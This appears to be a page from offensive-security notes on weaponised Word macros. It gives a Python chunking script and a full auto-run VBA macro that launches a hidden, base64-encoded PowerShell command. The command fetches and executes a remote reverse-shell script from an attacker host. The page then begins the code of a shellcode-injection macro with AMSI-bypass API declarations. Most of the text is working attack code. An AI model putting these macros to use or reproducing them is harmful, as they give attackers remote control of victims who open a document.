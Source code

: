 Secondly, we may use this python script to split the base64-encoded string into smaller chunks (50 chars)

{% code title="chunk_vba_payload.py" %}
```python
str = "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA..."
n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
{% endcode %}

```bash
$ python chunk_payload.py 
```

Then, add the following macro in your word document (see [Basic Usage](vba.md#basic-usage)) using the generated payload

```vba
'Macro
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  Str = Str + "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAc"
  Str = Str + "gAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQA"
  Str = Str + "uADIAMgA1AC8AcgBlAHYALgBwAHMAMQAgAC0AVQBzAGUAQgBhA"
  Str = Str + "HMAaQBjAFAAYQByAHMAaQBuAGcAKQA="
  CreateObject("Wscript.Shell").Run Str
End Sub
```
{% endtab %}

{% tab title="Shellcode Runners" %}
Examples of much more advanced Macros can be found on the [OSEP-Tools-v2](https://github.com/hackinaggie/OSEP-Tools-v2/tree/main/Macros) and [OffensiveVBA](https://github.com/S3cur3Th1sSh1t/OffensiveVBA) repositories.&#x20;

For instance `WordMacroInject.vbs`  will check on wich architechure (i.e x64 or x86) it is running and will Inject a shellcode into explorer.exe (64-bit Word) or a random 32-bit process. It will also perform some [AMSI bypass](../../../evasion/amsi/).&#x20;

{% code title="WordMacroInject.vbs" %}
```vba
'code from https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroInject.vbs
'av / 4msi
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Public Declare PtrSafe Function EnumProcessModulesEx Lib "psapi.dll" (ByVal hProcess As LongPtr, lphModule As LongPtr, ByVal cb As LongPtr, lpcbNeeded As LongPtr, ByVal dwFilterFlag As LongPtr) As LongPtr
Public Declare PtrSafe Function GetModuleBaseName Lib "psapi.dll" Alias "GetModuleBaseNameA" (ByVal hProcess As LongPtr, ByVal hModule As LongPtr, ByVal lpFileName As String, ByVal nSize As LongPtr) As LongPtr
'std
Private Declare PtrSafe Function getmod Lib "KERNEL32" Alias "GetModuleHandleA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function GetPrAddr Lib "KERNEL32" Alias "GetProcAddress" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function VirtPro Lib "KERNEL32" Alias "VirtualProtect" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProcess As LongPtr, lpflOldProtect As LongPtr) As LongPtr
```